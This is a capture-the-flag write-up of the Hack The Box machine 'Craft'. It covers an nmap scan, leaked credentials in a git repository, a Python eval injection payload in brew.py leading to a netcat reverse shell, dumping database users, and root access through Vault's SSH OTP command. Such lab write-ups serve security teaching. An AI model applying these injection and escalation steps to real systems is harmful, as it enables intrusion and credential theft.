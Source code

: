 Victim IP: 10.10.10.110
Victim OS: Linux

### Enumeration - Namp
```
nmap -sV -sC -oA nmap_full -p1,65535 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp  open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
6022/tcp open  ssh      (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6022-TCP:V=7.80%I=7%D=12/19%Time=5DFC45CB%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 19 22:54:28 2019 -- 1 IP address (1 host up) scanned in 47.95 seconds
```
### Enumerating the web page - https://craft.htb


The “API” link points to api.craft.htb and the “Sign in” button to “gogs.craft.htb” therefore we add these as entries to our hosts file in other to be able to resolve and reach them.

### Enumeration - https://api.craft.htb
Small API with basic GET, POST, PUT, DELETE actions, might be an interesting point of entry.
Authentication required for POST, PUT
<api_craft>

### Enumeration - https://gogs.craft.htb
Repository housing the code and content for api.craft.htb.
Reviewing all commits and merge requests, dinesh’s credentials were accidentally commited and removed. There is also a test.py script ready to be used to connect to the api.
<dinesh_creds>

Reviewing more code in the repository and especially the functions for the POST and PUT API options  leads to finding a vulnerable python function “eval”. This function resides in the POST brew function in brew.py.
<test.py>

### Initial foothold - Exploiting python eval function
Test 1: On local system:
<screen_shot>

That works.
Test 2: with a similar “if” statement like in test.py:
<screen_shot>

That works too, however there is no result returned when it is tried on the victim end.

Test 3. Ping from victim to local machine:
	```
  tcpdump -i tun0 -nnv icmp
  ```
	Payload (test.py): 
	```
  brew_dict['abv'] = '__import__("os").system("ping -c 3 10.10.14.4")' 
  ```

Try 4. Reverse shell (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
Several failed till the netcat (without -e) option.
	The payload becomes: 
  <screen_shot>

It’s says root! Well that was easy! 
But wait no user.txt or root.txt flags. Of course it couldn’t be that easy :( 

Running “cat /etc/issue”, LinEnum and linuxprivchecker again show that we are in a docker container
Release: Alpine Linux 3.9

### Obtaining User privileges  – user.txt
Dump database credentials – dbtest.py

Modify the SQL in the try statement to select all users from the database
```try: 
    with connection.cursor() as cursor:
        sql = "SELECT * from user" # show tables. 
        cursor.execute(sql)
        result = cursor.fetchall() #change from fetchone to fetchall
        print(result)

finally:
    connection.close()
```
Authenticate with discovered credentials and enumerate the git repository
All commits/merge requests ==> ssh private key, vault write commands …
<screenshot>
  
For now authenticate with the SSH private key and enter gilfoyle’s password (dumped from the db/git password) as passphrase

### Elevating to root – Leveraging Vault SSH Secrets Engine
After obtaining user access on the machine more enumeration is required to discover interesting escalation vectors. Running linuxenum and privesc scripts did not recover any vulnerabilities right away but did point out the vault write.

### Exploring vault:
<screen_shot>

Gilfoyle’s OTP setup:
<screen_shot>


Reviewing the SSH Secrets Engine Documentation: https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html 
gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=127.0.0.1
<screenshot>



Then SSH to the host using the generated key and the root user:
<screenshot>

Conclusion:
This machine simulates a lot of real world scenarios. I was delighted at every discovery, learned a lot and reminded myself once again the importance of enumeration during a penetration test.
